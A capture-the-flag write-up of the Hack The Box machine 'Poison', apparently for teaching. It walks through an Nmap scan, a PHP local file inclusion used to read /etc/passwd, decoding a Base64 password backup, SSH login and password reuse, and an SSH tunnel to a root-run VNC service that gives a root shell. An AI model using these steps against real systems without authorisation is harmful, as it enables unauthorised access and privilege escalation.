

# Poison

This is the write-up for the box Poison that got retired at the 8th September 2018.
My IP address was 10.10.14.39 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.84    poison.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/poison.nmap 10.10.10.84
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey:
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

## Checking HTTP (Port 80)

On the web page there is an application where it is possible to test local PHP files:



So lets test the given PHP files and the _/listfiles.php_ seems to list files in the working directory:

```markdown
Array ( [0] => . [1] => .. [2] => browse.php [3] => index.php [4] => info.php [5] => ini.php [6] => listfiles.php [7] => phpinfo.php [8] => pwdbackup.txt )
```

The file _pwdbackup.txt_ can be accessed and has the following content:
```markdown
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

It is a Base64-encoded string, so lets decode it 13 times:
```markdown
cat pwdbackup.b64 | base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d
```

The result is:
> Charix!2#4%6&8(0

In the web application it is possible to submit any file from the server as it is vulnerable to **Local File Inclusion** and when submitting _/etc/passwd_, it shows the contents of it and there is one user called _charix_.

Lets try the password on SSH:
```markdown
ssh charix@10.10.10.84
```

This works and we are logged in as the user _charix_.

## Privilege Escalation

In the home directory of _charix_ is a file called _secret.zip_.
Unzipping it:
```markdown
unzip secret.zip
```

It needs a password but using the same from before works and extracts a file called _secret_ that has some Non-ISO unreadable characters as content.
Maybe this is needed for something else, so lets enumerate the box manually to get more information:

Looking at the processes:
```markdown
ps aux
```

An unusual process is that **VNC** is running as root.
```markdown
Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rf
```

Looking at the listening connections:
```markdown
netstat -an | grep LIST
```
```markdown
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
```

It seems that **VNC** is running on port 5801 and 5901.
We will establish a SSH tunnel through these ports:
```markdown
ssh -D 1080 -L6801:127.0.0.1:5801 -L6901:127.0.0.1:5901 charix@10.10.10.84
```

This results in a dynamic port forwarding that listens on localhost on port 1080 going through SSH.
We can now browse to http[:]//127.0.0.1:6901 and it shows a string that validates that the port forwarding is working:
```markdown
RFB 003.008
```

Now we can use **vncviewer** to connect to the server:
```markdown
vncviewer 127.0.0.1::6901
```

It wants a password and the only thing we got, is the _secret_ file that could be the key for this connection.
Lets pass the file as the password:
```markdown
vncviewer -passwd secret 127.0.0.1:6901
```

This opens the **TightVNC** program and the VNC connection is a root shell!
